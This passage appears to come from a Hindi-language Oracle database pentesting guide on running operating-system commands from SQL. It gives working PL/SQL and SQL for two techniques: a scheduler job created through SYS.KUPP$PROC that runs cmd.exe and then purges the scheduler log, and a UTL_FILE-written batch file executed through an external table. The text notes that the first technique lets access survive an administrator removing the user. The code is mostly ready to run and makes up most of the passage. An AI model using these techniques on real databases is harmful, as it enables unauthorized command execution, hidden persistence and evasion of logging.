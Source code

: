 ```text
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```
नोट करें कि, जब आप स्केड्यूलर का उपयोग करते हैं, तो आप इस जॉब को एक से अधिक बार चला सकते हैं और इसे कुछ अंतराल के साथ कर सकते हैं। इसके परिणामस्वरूप, यह आपको परीक्षण किए गए सिस्टम में एक आधार प्राप्त करने में मदद करेगा, क्योंकि, यदि प्रशासक उपयोगकर्ता को ओएस से हटा देता है, तो यह जॉब, जो नियमित रूप से सिस्टम में चल रहा है, उसे फिर से जीवित कर देगा।

# RCE: बाहरी तालिकाएं

ओएस कमांड्स को निष्पादित करने के लिए अंतिम तरीके के रूप में, मैं बाहरी तालिकाओं के उपयोग का उल्लेख करना चाहूंगा। यह तरीका आपको बाद में सर्वर से फ़ाइलें डाउनलोड करने में मदद करेगा। आपको निम्नलिखित विशेषाधिकारों की आवश्यकता होगी:

* UTL\_FILE;
* CREATE TABLE;
* उपयोगकर्ता के लिए एक निर्धारित निर्देशिका।

चलिए याद दिलाएं कि 'UTL\_FILE' पैकेज तक पहुंच डिफ़ॉल्ट रूप से 'CONNECT' भूमिका वाले सभी खातों को प्रदान की जाती है। चरण एक: निम्नलिखित क्वेरी के साथ जारी निर्देशिकाओं की जांच करें:
```text
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;

TABLE_NAME
------------------------------
ALICE_DIR
```
चरण दो: वांछित कमांड के साथ एक निष्पादन योग्य बैच फ़ाइल बनाएं:
```text
declare
f utl_file.file_type;
s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
f := utl_file.fopen('ALICE_DIR','test.bat','W');
utl_file.put_line(f,s);
utl_file.fclose(f);
end;
/
```
चरण तीन: बाहरी तालिका 'EXTT' को तैयार करें, आपको फ़ाइल चलाने के लिए इसकी आवश्यकता होगी:
```text
CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
DEFAULT DIRECTORY ALICE_DIR
ACCESS PARAMETERS
( RECORDS DELIMITED BY NEWLINE
FIELDS TERMINATED BY ',')
LOCATION (alice_dir:'test.bat'))
/
```
अब, निम्नलिखित कमांड के साथ अपनी बैच फ़ाइल को कॉल करें:
```text
SELECT * from EXTT;
```
टर्मिनल त्रुटि संदेश प्रदर्शित करना शुरू करेगा जो सिस्टम को टेबल और आह्वानित फ़ाइल को मेल नहीं कर सकता है, लेकिन इस मामले में यह महत्वपूर्ण नहीं है, क्योंकि मुख्य उद्देश्य एक्सीक्यूटेबल फ़ाइल खोलना था, जिसे आपने प्राप्त कर लिया है।
